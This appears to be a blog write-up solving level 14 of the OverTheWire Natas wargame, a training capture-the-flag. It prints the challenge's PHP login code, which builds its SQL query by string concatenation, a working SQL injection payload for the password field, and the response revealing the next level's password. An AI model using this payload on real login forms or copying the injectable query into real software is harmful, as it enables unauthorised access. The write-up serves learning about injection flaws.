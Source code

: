 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 14"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 14 > Level 15

![natas14-01](/img/otw-natas/natas14-01.png)

```
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

SQLi! And a pretty bad one at that. I did this in Burp Suite's Repeater since you can manually control whether characters are encoded rather than the browser deciding for you. This being about the most obviously injectable page possible, the most classic injection does the trick. Mind `'` vs `"`, have to admit that tripped me up for a few minutes before I noticed.

```
username=foo&password=foo" or "1"="1
```

```
<h1>natas14</h1>
<div id="content">
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Success!

TODO: elaborate on bool logic
